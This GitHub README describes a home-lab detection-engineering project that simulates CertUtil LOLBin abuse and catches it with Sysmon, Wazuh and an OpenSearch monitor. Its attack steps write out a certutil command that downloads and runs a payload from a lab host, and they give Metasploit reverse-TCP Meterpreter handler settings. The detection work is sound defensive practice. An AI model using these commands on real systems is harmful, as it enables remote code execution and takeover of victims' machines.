



# 🛡️ LOLBin Abuse Detection using CertUtil | Wazuh | Sysmon

An end-to-end Detection Engineering project demonstrating how malicious use of the Windows **CertUtil LOLBin** can be detected using **Sysmon**, **Wazuh SIEM**, and **OpenSearch Dashboard**.

---

## 📌 Project Overview

Attackers frequently abuse trusted Windows binaries (LOLBins) to evade traditional security controls. One commonly abused utility is **CertUtil**, which can download payloads directly from remote servers.

In this project, I simulated a CertUtil download attack in a controlled lab environment and built a custom Wazuh detection pipeline to identify the activity using Sysmon telemetry.

---

# 🛠️ Lab Environment

| Component | Technology |
|-----------|------------|
| SIEM | Wazuh |
| Search Engine | OpenSearch |
| Endpoint Monitoring | Sysmon |
| Attacker Machine | Kali Linux |
| Victim Machine | Windows 11 |
| Payload Hosting | Python HTTP Server |
| Exploitation Framework | Metasploit |

---

# 🔄 Attack Flow

```
Attacker (Kali Linux)
        │
        ▼
Python HTTP Server
        │
        ▼
Victim downloads payload using CertUtil
        │
        ▼
Sysmon generates telemetry
        │
        ▼
Wazuh Agent
        │
        ▼
Wazuh Manager
        │
        ▼
OpenSearch Index
        │
        ▼
Custom Detection Monitor
        │
        ▼
🚨 High Severity Alert
```

---

# 🚀 Demonstration

---

## Step 1. Start Python HTTP Server

A Python HTTP server was started on Kali Linux to host the payload (`update.exe`).


---

## Step 2. Configure Metasploit Handler

Metasploit was configured with a reverse TCP Meterpreter payload to receive the connection after payload execution.

Configuration

- Payload: `windows/x64/meterpreter/reverse_tcp`
- LHOST: `192.168.178.128`
- LPORT: `4444`


---

## Step 3. Execute CertUtil Download

The payload was downloaded using the legitimate Windows utility **certutil.exe**.

```powershell
certutil.exe -urlcache -split -f http://192.168.178.128:8080/update.exe C:\Users\Public\update.exe

C:\Users\Public\update.exe
```


---

## Step 4. Verify HTTP Download

The Kali HTTP server received the incoming HTTP GET request generated by CertUtil.


---

# 🔍 Detection Phase

After executing the attack, Sysmon generated Windows telemetry that was forwarded to Wazuh.

---

## Step 5. Verify Event in Wazuh Discover

The Sysmon event was successfully indexed inside Wazuh Discover.

Search Query

```
rule.id:92075
```


---

## Step 6. Create Custom Detection Monitor

A custom OpenSearch Monitor was created to automatically detect CertUtil download activity.

Monitor Name

```
LOLBin_Abuse_Certutil_Download_Detection
```


---

## Step 7. Sysmon Event ID 1 (Process Create)

Sysmon captured execution of **certutil.exe** together with the complete command line.

Observed Fields

- Image
- CommandLine
- Parent Process
- User
- Process ID


---

## Step 8. Sysmon Event ID 3 (Network Connection)

Sysmon detected the outbound HTTP connection created by CertUtil.

Observed Fields

- Source IP
- Destination IP
- Destination Port
- Process Name



---

## Step 9. Sysmon Event ID 11 (File Create)

Sysmon recorded creation of the downloaded payload on the victim machine.

Observed Fields

- TargetFilename
- Creation Time
- Image



---

## Step 10. Alert Generated

The custom Wazuh Monitor successfully detected the activity and generated a High Severity Alert.

Alert Details

- Severity: Highest (1)
- Trigger: Certutil Download Detection



---

## Step 11. Final Alert Details

The generated alert contains monitor information, trigger details and severity.


---

# 📂 Project Structure

```
LOLBin-Abuse-CertUtil-Detection-Wazuh
│
├── README.md
│
├── screenshots
│   ├── Python HTTP Server.png
│   ├── Metasploit Handler.png
│   ├── Windows Download execution.png
│   ├── Discover Search.png
│   ├── Custom Monitor.png
│   ├── event 1.png
│   ├── event3.png
│   ├── event11.png
│   ├── alert_created.png
│   └── Final Alert.png
│
├── commands
│   ├── windows-commands.txt
│   ├── kali-commands.txt
│   └── metasploit.txt
│
├── queries
│   ├── discover-search.txt
│   └── monitor-query.txt
│
└── monitor
    └── LOLBin_Abuse_Certutil_Download_Detection.json
```

---

# ⚙️ Detection Logic

The monitor continuously searches Wazuh alerts for CertUtil-related Sysmon events. Whenever matching activity is detected, it automatically generates a **High Severity Alert**, enabling rapid detection of LOLBin abuse.

---

# 🧰 Technologies Used

- Wazuh SIEM
- OpenSearch Dashboard
- Sysmon
- Windows 11
- Kali Linux
- Python HTTP Server
- Metasploit Framework
- PowerShell

---

# 🎯 Skills Demonstrated

- Detection Engineering
- Windows Security Monitoring
- Sysmon Log Analysis
- Wazuh SIEM
- OpenSearch Monitoring
- Threat Detection
- Blue Team Operations
- Incident Detection
- MITRE ATT&CK Mapping
- SOC Analyst Workflow

---

# 📈 Result

This project successfully demonstrates an end-to-end detection pipeline for **CertUtil LOLBin abuse**. The attack generated **Process Creation**, **Network Connection**, and **File Creation** telemetry through Sysmon, which was ingested into Wazuh and automatically detected by a custom OpenSearch Monitor, resulting in a **High Severity Alert** suitable for SOC investigations.
